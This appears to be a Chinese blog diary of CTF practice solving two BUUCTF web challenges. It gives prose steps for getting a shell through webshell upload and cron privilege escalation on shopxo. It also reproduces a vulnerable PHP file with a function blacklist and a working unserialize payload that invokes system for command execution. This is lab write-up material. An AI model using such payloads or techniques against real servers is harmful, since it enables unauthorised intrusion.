 ```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu摸鱼日记之十八

###### 外卖日记：今天星期一，可能是昨天大家都出去玩了大饱口福的原因，都没有什么点餐。生意很差，只有11单

## [GKCTF2020]老八小超市儿

这题有点意思

本来以为是ssrf什么的，并不是

shopxo是一个cms，有洞可以网上找

admin.php有管理页面，标准密码和账号

然后可以通过上传马，换主题来getshell

flag所在文件夹无权限，可以利用有root权限的定时脚本来实现

http://8c8003d7-d8b6-47b4-a56a-d4bdf05c29cb.node3.buuoj.cn（我手滑把flag搞没了，又得打一次QWQ）

## [网鼎杯 2020 朱雀组]phpweb

很有意思的题目

抓包会发现post一个func一个p 测试发现file_get_contents有效（system什么的都没用，phpinfo也不行）

然后就读index.php嘛

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        //回调函数,就是$func($p)
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

还做了个大小写过滤（我都没想到）

反序列化直接打

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";} 
```

命令任意执行，随便玩